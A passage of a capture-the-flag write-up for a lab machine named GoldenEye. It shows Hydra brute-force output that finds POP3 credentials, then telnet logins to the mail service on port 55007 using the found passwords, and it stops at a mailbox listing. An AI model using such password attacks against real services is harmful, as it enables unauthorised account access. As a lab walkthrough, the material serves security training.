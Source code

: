 ```

[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.

[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.

[55007][pop3] host: GoldenEye.thm login: natalya password: bird
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-02 11:23:10

```

<p class="message">
✅ Answer: <strong>secret1!</strong>

</p>

### Inspect port 55007, what services is configured to use this port?

I have use `nc` which stands for **netcat** but the answer is not correct. Luckily, there are more services that could be use to inspect the port `55007` and one of them is `telnet`:

```

┌──(kali㉿kali)-[~]
└─$ telnet GoldenEye.thm 55007
Trying 10.10.87.236...
Connected to GoldenEye.thm.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.

```

<p class="message">
✅ Answer: <strong>telnet</strong>

</p>

### Login using that service and the credentials you found earlier.

<p class="message">
✅ No answer needed

</p>

I log in as user **boris** first:

```

┌──(kali㉿kali)-[~]
└─$ telnet GoldenEye.thm 55007
Trying 10.10.87.236...
Connected to GoldenEye.thm.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
LIST
+OK 3 messages:
1 544
2 373
```